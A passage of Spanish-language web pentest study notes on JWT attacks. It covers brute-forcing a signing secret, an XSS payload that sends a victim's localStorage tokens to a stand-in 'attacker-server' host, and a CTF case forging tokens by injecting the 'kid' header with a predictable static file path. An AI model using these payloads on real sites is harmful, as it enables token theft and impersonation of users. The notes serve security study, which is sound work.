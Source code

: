 Forzar brutamente/adivinar el secreto utilizado para firmar un token:

![Texto alternativo](https://johnermac.github.io/assets/images/posts/ewptx/71.png)

#### Escenario de ataque JWT 2 <a href="#jwt-attack-scenario-2" id="jwt-attack-scenario-2"></a>

Al atacar la autenticación a través de un vuln XSS, generalmente intentamos capturar una cookie de víctima de la siguiente manera:

```
<script>alert(document.cookie)</script>
```

Cuando se emplea JWT se utiliza un localStorage, podemos atacar la autenticación a través de XSS usando JSON.stringify:

```
 <img src='https://attacker-server/yikes?jwt='+JSON.stringify(localStorage);'--!>
```

> si obtiene un IdToken, puede usarlo para autenticar y suplantar a la víctima si obtiene un accessToken, puede usarlo para generar un newIdToken con la ayuda del punto de conexión de autenticación

#### Escenario de ataque JWT 3 <a href="#jwt-attack-scenario-3" id="jwt-attack-scenario-3"></a>

Un desafío CTF de bitcoin que incluyó a JWT:

* uppon inicio de sesión exitoso, el usuario recibe un JWT dentro de una cookie
* Se utiliza HS256
* Existe un usuario llamado admin
* Uno de los campos del encabezado JWT, kid, es utilizado por el servidor para recuperar la clave y verificar la firma. El problema es que no se produce una fuga adecuada mientras se hace.

> Si un atacante logra controlar o inyectar a kid', podrá crear sus propios tokens firmados (ya que **kid** es esencialmente la clave que se usa para verificar la firma)

Lo que podemos hacer: Inyecte **kid** y especifique un valor que resida en el servidor web y que pueda ser predicho (así como recuperado por el servidor, por supuesto)

* A través de errores provocadores, identificamos que la aplicación está usando **Sinatra** bajo el capó
* Dicho valor podría ser 'public/css/bootstrap.css' <: este valor proviene de la documentación/mejores prácticas de Sinatras y es un valor legítimo, ya que no se produce ningún escape adecuado al recuperar **kid**

![Texto alternativo](https://johnermac.github.io/assets/images/posts/ewptx/72.png)

![Texto alternativo](https://johnermac.github.io/assets/images/posts/ewptx/73.png)

### OAuth <a href="#oauth" id="oauth"></a>

Es el principal estándar web para la autorización entre servicios. Se utiliza para autorizar a las aplicaciones de terceros a acceder a servicios o datos de un proveedor con el que tiene una cuenta.

#### Componentes de OAuth: <a href="#oauth-components" id="oauth-components"></a>
